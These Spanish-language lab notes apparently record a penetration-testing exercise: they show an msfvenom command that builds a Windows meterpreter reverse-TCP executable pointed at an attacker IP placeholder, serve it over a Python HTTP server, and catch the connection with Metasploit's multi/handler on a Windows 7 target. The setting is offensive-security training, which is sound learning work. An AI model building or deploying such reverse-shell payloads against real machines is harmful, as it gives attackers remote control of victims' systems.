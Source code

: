 - Vamos a utilizar Windows 7.
- Msfvenom es un generador de payloads


- Para iniciarlo debemos usar el siguiente comando:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST (IP_MAQUINA_ATACANTE) LPORT=443 -f exe -o (NOMBRE_DE_ARCHIVO)
```
- Esta información podemos buscarlo por internet
![[Pasted image 20241212195502.png]]
- Ahora vamos a compartirlo dentro de un servidor http con python en el puerto 80
![[Pasted image 20241212195601.png]]
- En la maquina windows 7 entramos a la web.
![[Pasted image 20241212195743.png]]
- Lo descargamos y lo guardamos en el escritorio.
- Ahora vamos a dejar en escucha kali.
- Vamos a usar el metasploit para usar la herramienta `exploit/multi/handler`.
	- Para esto usamos el siguiente comando:
```
use /multi/handler
```
![[Pasted image 20241212200304.png]]
- Vamos a configurarlo usando el comando `show options`.
![[Pasted image 20241212200352.png]]
- Es importante saber que esta herramienta genera una reverse shell, pero en windows creamos un payload con meterpreter.
- Para eso lo configuramos de la siguiente forma:
![[Pasted image 20241212200629.png]]
- Ya tenemos nuestro payload configurado:
![[Pasted image 20241212200753.png]]
- Ejecutamos el payload con el comando `run` y a la vez ejecutamos en windows 7 el payload descargado y ya tenemos conexión.
![[Pasted image 20241212200926.png]]
